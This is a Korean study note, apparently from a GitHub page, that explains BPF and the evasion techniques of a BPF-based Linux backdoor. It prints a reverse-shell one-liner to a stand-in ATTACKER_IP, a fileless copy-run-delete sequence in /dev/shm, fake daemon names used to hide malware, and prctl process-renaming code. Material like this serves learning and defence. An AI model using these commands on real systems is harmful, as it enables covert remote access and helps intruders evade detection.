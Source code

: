 # 🛠️ BPF (Berkeley Packet Filter)

> **BPF**는 유저 모드 프로그램이 네트워크 필터에 어태치하여 소켓을 통해 들어오는 데이터를 허용하거나 거부할 수 있게 허용해 주는 기술이다. 즉 실행 중인 프로그램이 사용 중인 네트워크 소켓에 패킷 필터링 룰을 등록할 수 있으며 이를 통해 데이터를 읽거나 알림을 받을 수 있다.

1992년에 개발되어 패킷 필터로 패킷을 분석하고 필터링하는데에 사용되는 in-kernel virtual machine으로 BSD에서 처음으로 도입하였다. 네트워크 분석 도구 (예: tcpdump, wireshark)는 대량의 패킷 중에서 관심 있는 패킷만 빠르게 추출해야 합니다. 모든 패킷을 사용자 공간으로 가져와 필터링하면 성능이 매우 나빠집니다.

따라서 커널레벨에서 먼저 필터링 하고 필요한 패킷만 유저 공간으로 전달하는 BPF가 등장하였다


## 🔑 BPF Backdoor

BPF는 커널 네트워크 스택의 초기단계 socket이전에 필터링이 가능하다. 따라서 포트를 리슨하지 않아도 패킷을 가로채는것이 가능하다

따라서
* 리스닝 포트 없음: 외부에 노출되는 포트 없음
* Fileless: 디스크에 흔적을 남기지않음
* 커널수준에서 특정 패킷만 수신
* RC4 암호화 통신
* iptable 규칙 조작으로 포트 리다이렉션
* 시스템 데몬이름으로 프로세스 위장

### 🔧 특징
* 설치 위치: 리눅스 시스템 (일반적으로 백그라운드 프로세스)
* 동작 방식: eBPF로 패킷 검사 → 특정 시그니처가 들어오면 쉘 실행
* 기능: 명령어 실행, 역방향 쉘, 포트리스닝 없이 명령 수신
* 접근 방법: 비정상적인 TCP/UDP 패킷 이용, 포트 열지 않음
* 탐지 난이도: 매우 어렵다. 대부분의 보안 솔루션으로 탐지 불가

### 🔥 핵심 차별점

* 방화벽 우회: 방화벽이 열려있지 않아도 내부로 접근 가능
* 로그 미기록: 커널 레벨에서 수신 → 시스템 로그에 남지 않음
* 포트리스: 리스닝 포트 없이도 명령 수신 (정적 분석으로도 탐지 어려움)

## Reverse Shell

공격자가 피해자의 컴퓨터로 접속하는것이 아닌 피해자의 컴퓨터가 공격자의 컴퓨터에 접속하여 쉘을 제공하는 방식

아웃바운드 인바운드 보안을 우회

```css
[피해자 PC] ➝ 접속 ➝ [공격자 PC]
             쉘을 열어줌
```
### 🧱 2. 전통적 공격과의 차이점

| 방식    | 공격자 역할      | 피해자 역할        | 방화벽 우회 |
| ----- | ----------- | ------------- | ------ |
| 바인드 쉘 | 연결 요청       | 서버처럼 대기(bind) | 어렵다    |
| 리버스 쉘 | 리스너(Listen) | 클라이언트처럼 연결    | 쉬움 ✔️  |


* **Example**
    
1. 공격자
```bash
nc -lvnp 4444
```

2. 피해자

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
# bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 ==> localhost
```

## Memory based FS

리눅스 시스템에서 
```bash
/dev/shm
```
경로는 메모리 기반의 파일 시스템으로 주로 임시데이터 저장이나 처리에 사용된다 -> 디스크에 기록되지않고 메모리상에서만 운영되기에 자주 악용된다

```bash
/bin/rm -f /dev/shm/kdmtmpflush; # 파일이 존재하는 경우 지운다 -> 초기화 느낌
/bin/cp [악성코드] /dev/shm/kdmtmpflush && # 악성코드 바이너리 복사
/bin/chmod 755 /dev/shm/kdmtmpflush && # 파일 실행권한 설정
/dev/shm/kdmtmpflush –init kdmtmpflush && # 악성코드 실행

/bin/rm -f /dev/shm/kdmtmpflush # 원본은 지우기
```

**❓ 왜 `/dev/shm` 인가?**

1. 🧠 메모리 기반이라 흔적이 디스크에 남지 않음
    * /dev/shm은 RAM 기반 임시 파일시스템 (tmpfs)입니다.
    * 파일을 여기에 복사하고 실행하면, 디스크 I/O 없이 메모리에서 직접 실행됩니다.
    * 실행 후 삭제하면 디스크 포렌식, 로그 기반 탐지에 흔적을 남기지 않음.
2. 🕵️ 디스크 감시 탐지 우회 
    * /dev/shm은 일반적으로 덜 감시되므로, 여기에 복사하여 실행하면 탐지 확률이 줄어듦.


## 🪖 Camouflage

정신히 있는 관리자라면 가끔씩 어떤 프로세스들이 돌아가고 있는지 확인을 하긴 할 것이다. 따라서 해커들은 그럴듯한 이름을 통해 프로세스를 숨기고자 한다
이는 `prctl()` 함수를 통해 할 수 있다

```cpp
char *self[] = {
    "/sbin/udevd -d",
    "/sbin/mingetty /dev/tty7",
    "/usr/sbin/console-kit-daemon --no-daemon",
    "hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event",
    "dbus-daemon --system",
    "hald-runner",
    "pickup -l -t fifo -u",
    "avahi-daemon: chroot helper",
    "/sbin/auditd -n",
    "/usr/lib/systemd/systemd-journald"
};
```

| 위장 문자열                     | 실제 용도           | 왜 위장할까?                |
| -------------------------- | --------------- | ---------------------- |
| `/sbin/udevd -d`           | Udev 장치 관리자     | 항상 실행되므로 눈에 띄지 않음      |
| `/sbin/mingetty /dev/tty7` | 터미널 로그인 데몬      | tty 단말 관련, 익숙한 이름      |
| `console-kit-daemon`       | 로그인/세션 관리 데몬    | GUI 시스템에서 흔함           |
| `dbus-daemon --system`     | IPC 메시지 버스 데몬   | 항상 실행됨                 |
| `hald-runner`              | HAL 하드웨어 추상화 데몬 | 요즘은 사용 안되지만 남아 있을 수 있음 |
| `auditd -n`                | 보안 감사 데몬        | 권한 있는 데몬, 의심 안 받음      |
| `systemd-journald`         | 시스템 로그 기록       | 완전한 핵심 프로세스처럼 보임       |


```cpp
#include <stdio.h>
#include <sys/prctl.h>
#include <string.h>

int main() {
    const char *new_name = "unsuspicious-name";
    
    if (prctl(PR_SET_NAME, (unsigned long)new_name, 0, 0, 0) == -1) {
        perror("prctl");
        return 1;
    }
    // pid 확인 (ps aux | grep '^roh')
    // 변경된 이름 확인 (ps -o comm -p <pid>)
    while(1) {
        sleep(10);
    }

    return 0;
}
```